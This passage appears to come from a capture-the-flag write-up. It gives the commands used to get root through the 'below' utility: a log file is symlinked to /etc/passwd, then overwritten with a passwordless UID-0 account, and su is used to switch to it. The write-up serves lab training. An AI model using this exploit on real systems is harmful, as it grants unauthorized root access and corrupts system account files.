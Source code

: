 ```
echo "pwn::0:0:pwn:/root:/bin/bash" > /tmp/fakepass && rm -rf /var/log/below/error_root.log && ln -s /etc/passwd /var/log/below/error_root.log && sudo /usr/bin/below
```
Immediately after running the above command, we executed the copy command and switched to our new user.
```
cp /tmp/fakepass /var/log/below/error_root.log && su pwn
```
The su pwn command prompted for a password, which was empty. We were in. Checking our identity confirmed we were root.

__Result:__ root.txt captured!

